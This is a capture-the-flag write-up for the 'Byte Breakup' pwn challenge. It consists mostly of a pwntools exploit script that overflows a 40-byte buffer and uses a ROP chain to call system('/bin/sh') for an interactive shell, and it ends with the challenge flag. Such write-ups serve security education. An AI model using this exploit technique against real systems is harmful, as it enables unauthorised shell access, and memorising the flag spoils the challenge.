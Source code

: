 # Byte Breakup 
Solved by **CapangJabba**

## Question
Welcome to 'Byte Breakup,' where an old program is stuck in a code-cial relationship with a bug—the ex-girlfriend kind! She left a glitchy surprise, and now it's up to you to debug the drama away. Can you charm your way through its defenses and make it sing? Get ready for a byte-sized comedy of errors as you unravel the mysteries left by your digital ex!

## Solution
`xplt.py`

```
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./vuln_patched", )
elf = context.binary = ELF("./vuln_patched", checksec=False)
context.log_level = 'debug'
libc = ELF('./libc.so.6')

offset = 40
rop = ROP(elf)
rop.system(next(elf.search(b'/bin/sh\x00')))
ret = 0x0000000000401020
pop_rdi = 0x00000000004012bb
plt_system = elf.plt['system']
payload = b'A'*offset 
payload += p64(ret)
payload += rop.chain()
pause()
io.recvuntil(b'password: \n')
io.sendline(payload)
io.recvuntil(b'Wrong password\n')
io.interactive()
```

### Flag
`OSCTF{b1t_byt3_8r3akup}
